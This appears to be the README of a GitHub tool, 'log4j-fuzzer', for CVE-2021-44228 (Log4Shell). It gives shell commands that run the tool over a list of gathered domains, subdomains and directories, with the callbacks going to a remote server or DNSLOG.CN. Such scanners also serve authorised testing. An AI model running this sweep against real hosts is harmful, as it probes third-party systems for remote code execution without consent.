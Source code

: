 # log4j-fuzzer
CVE-2021-44228 

Gether All Domain, Subdomain, Directroty in a list 
after that simply command this 
```bash
chmod +x log4j
```
Create a remote server or else try `DNSLOG.CN` this 

```bash
cat list.txt | while read line ; do ./log4j $line [YOUR_Remote_Server_IP/URL_HERE] ;done
```

